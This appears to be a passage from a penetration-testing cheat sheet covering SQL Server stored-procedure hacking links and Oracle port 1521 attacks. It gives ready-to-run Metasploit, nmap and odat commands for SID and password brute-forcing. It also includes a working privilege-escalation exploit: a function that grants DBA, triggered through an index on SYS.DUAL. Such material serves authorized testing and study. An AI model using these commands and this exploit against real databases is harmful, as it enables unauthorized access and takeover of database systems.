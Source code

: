 ### Hacking SQL Server Stored Procedures
* https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/
* https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/
* https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/
* https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/



## 1494 - Citrix
### Enumeration



## 1521 - Oracle 
### Oracle Enumeration
 ```
use auxiliary/scanner/oracle/tnslsnr_version
use auxiliary/scanner/oracle/sid_enum
 ```
### Brute Force
#### nmap
```bash
nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 <IP>
nmap --script=oracle-sid-brute -p 1521-1560 <IP>
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL <IP>
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL <IP>
nmap --script oracle-enum-users --script-args oracle-enum-users.sid=ORCL,userdb=orausers.txt -p 1521-1560 <IP>
```
#### odat
```bash
./odat-libc2.5-x86_64 sidguesser -s <IP>>
```
```bash
./odat-libc2.5-x86_64 passwordguesser -d XE -s <IP>
```
#### metasploit
```
use auxiliary/scanner/oracle/oracle_login
use auxiliary/scanner/oracle/sid_brute
```
### PrivEsc
```
select * from session_privs;
```
```
select banner from v$version where banner like 'Oracle%';
```
Create function:
```
CREATE OR REPLACE FUNCTION GETDBA_mine(FOO varchar) return varchar deterministic authid current_user is pragma autonomous_transaction;
begin
execute immediate 'grant dba to myuser identified by myuser';
commit;
return 'FOO';
End;
```
Create index:
```
create index exploit_index_mine on SYS.DUAL(SCOTT.GETDBA_mine('BAR'));
```
```
```